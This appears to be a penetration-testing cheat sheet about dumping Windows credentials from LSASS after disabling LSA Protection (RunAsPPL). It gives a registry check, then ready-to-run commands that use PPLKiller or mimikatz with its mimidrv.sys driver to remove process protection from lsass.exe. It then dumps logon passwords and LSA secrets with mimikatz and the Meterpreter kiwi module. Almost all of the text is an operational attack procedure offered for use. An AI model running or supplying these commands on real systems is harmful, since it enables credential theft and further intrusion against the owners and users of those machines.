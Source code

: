 ### <ins>Check if PPL is enabled</ins>
CMD: `reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v RunAsPPL` - `0x1` means enabled.

### <ins>Disable PPL using PPLKiller</ins>

Make sure the session you are running with has SYSTEM privleges.
We need to upload the driver to the path:
- `C:\Windows\System32\config\systemprofile\AppData\Local\Temp` - The Temp directory might no exist, just create it - `mkdir Temp`.

Then we will disable PPL: 
- `.\PPLKiller.exe /disablePPL <LSASS PID>`

Now we can use meterpreter mimikatz module to dump the lsass process: 
- `load kiwi` - `creds_all` - `lsa_dump_secrets`

### <ins>Disable PPL using mimikatz</ins>
Transfer both `mimikatz.exe` and `mimidrv.sys` to the same directory, e.g `C:\Windows\Tasks`.

Dump logonpasswords: 
- `.\mimikatz.exe "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "sekurlsa::logonpasswords" "exit"`

Dump secrets: 
- `.\mimikatz.exe "!+" "!processprotect /process:lsass.exe /remove" "privilege::debug" "lsadump::secrets" "exit"`

Restore: 
- `.\mimikatz.exe "!processprotect /process:lsass.exe" "!-" "exit"`
